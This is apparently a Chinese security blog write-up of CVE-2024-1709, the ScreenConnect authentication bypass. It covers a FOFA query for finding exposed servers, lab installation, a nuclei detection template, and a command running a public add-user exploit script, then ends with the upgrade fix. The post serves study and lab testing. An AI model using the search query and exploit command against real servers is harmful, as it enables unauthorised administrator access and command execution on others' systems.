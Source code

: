 #  CVE-2024-1709   
原创 fgz  AI与网安   2024-02-28 07:02  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
ConnectWise ScreenConnect使用备用路径或通道绕过身份验证  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
ConnectWise ScreenConnect 23.9.7及之前版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkMPTQBstKECo9P1HHPaER4mB3pV73zhvuicu6BIibKnuSTE0bxicNWsicpg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
ConnectWise ScreenConnect 23.9.7及之前版本存在身份验证绕过漏洞，攻击者可通过替代路径或通道绕过身份验证，未经授权攻击者可以利用此漏洞注册账户，登陆到产品后台，而且可以通过 ScreenConnect的原有功能执行操作系统命令，直接访问机密信息或关键系统。  
  
  
详细漏洞分析请参考  
  
https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-82958153"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwku3FTh5Umef0Y2teU3nsiarff2giasNXI6XAUXGxzgwEzXe2Xh0RYTWcw/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
靶场安装  
  
  
上官网根据自己的操作系统下载对应的安装包  
  
https://screenconnect.connectwise.com/download/archive  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkV2V6u7hQJQ4iaEQPBQkvY5SMIGLdm3La0F3DW0CKmZ9jIotfeMPiaGEg/640?wx_fmt=png&from=appmsg "")  
  
我是在centos上安装，先上传安装包，然后解压  
```
tar -zxvf ScreenConnect_20.3.31734.7751_Release.tar.gz
cd ScreenConnect_20.3.31734.7751_Install

```  
  
执行安装脚本  
```
./install.sh
```  
  
访问页面  
  
http://localhost:8040/Host  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwk55fz2UJ2S3dd8B47cCFHdIjPEibupQqsxTnicJiazaqOAwJlrdTUUTM2g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwknibhFFfp7zdW40AQcmXDDXuEhGE7jqJBsMEhOQtichqKiaOC6wAqCYFkw/640?wx_fmt=png&from=appmsg "")  
  
然后在官网免费申请一个使用license即可  
  
  
  
  
06  
  
—  
  
批量验证POC  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-1709

info:
  name: ConnectWise ScreenConnect 23.9.7 - Authentication Bypass
  author: johnk3r
  severity: critical
  description: |
    ConnectWise ScreenConnect 23.9.7 and prior are affected by an Authentication Bypass Using an Alternate Path or Channel vulnerability, which may allow an attacker direct access to confidential information or critical systems.
  reference:
    - https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass
    - https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc
    - https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1709
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.0
    cve-id: CVE-2024-1709
    cwe-id: CWE-288
  metadata:
    verified: true
    max-request: 1
    vendor: connectwise
    product: screenconnect
    shodan-query: http.favicon.hash:-82958153
  tags: cve,cve2024,screenconnect,connectwise,auth-bypass,kev

variables:
  string: "{{rand_text_alpha(10)}}"

http:
  - method: GET
    path:
      - "{{BaseURL}}/SetupWizard.aspx/{{string}}"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "SetupWizardPage"
          - "ContentPanel SetupWizard"
        condition: and

      - type: status
        status:
          - 200

    extractors:
      - type: kval
        part: header
        kval:
          - Server
# digest: 4a0a004730450220564c9949c406c35520203b46a2a34bba505d1cadfde47e8a38f9a073264e97f0022100ff2a065d66fa48b8502a068445d833e6700efd1e9715d034f1ea16e91696bd06:922c64590222798bb761d5b6d8e72950
```  
  
运行POC  
```
nuclei.exe -l data/CVE-2024-1709.txt -t mypoc/cve/CVE-2024-1709.yaml
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkBuibb70lzHagqsqC8s2g8VYfvbFAprJbL1MictSeNibyE9OgicuWuA1p0g/640?wx_fmt=png&from=appmsg "")  
  
  
07  
  
—  
  
漏洞利用  
  
  
github上有python版的代码可以添加用户  
```
https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc
```  
  
使用方法  
```
python watchtowr-vs-ConnectWise_2024-02-21.py --url http://localhost --username hellothere --password admin123!
```  
  
创建好用户后直接登录后台，可以执行系统命令。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkCHq76GhH0ULj3X0C3RlwrONicicKrmKzVeQsSGYA37qmlR7qhXRAMWGw/640?wx_fmt=png&from=appmsg "")  
  
  
  
08  
  
—  
  
修复建议  
  
  
升级到23.9.8以上版本。  
  
https://screenconnect.connectwise.com/download  
  
  
  
09  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
